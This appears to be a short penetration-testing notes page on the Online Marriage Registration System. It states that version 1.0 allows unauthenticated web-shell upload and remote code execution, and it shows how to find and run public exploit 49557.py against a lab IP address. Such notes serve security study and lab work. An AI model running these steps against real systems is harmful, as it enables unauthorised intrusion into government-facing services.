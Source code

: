 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# OMRS

## 101

The Online Marriage Registration System (OMRS) is a **web-based application designed to simplify and digitize the marriage registration process**. It allows users to submit applications, upload documents, and track status online. Typically used by local government or civil service departments.

## Attacks

OMRS `1.0` allows unauthenticated users to register, upload a PHP web shell, and achieve RCE:\
**Exploit (49557.py):**

{% code overflow="wrap" %}
```bash
# Search for a PoC
$ searchsploit OMRS
Online Marriage Registration System (OMRS) 1.0 - Remote code execution (3) | php/webapps/49557.py

# Exploit
$ python3 49557.py -u http://172.16.1.10:80/ -c 'whoami'
```
{% endcode %}
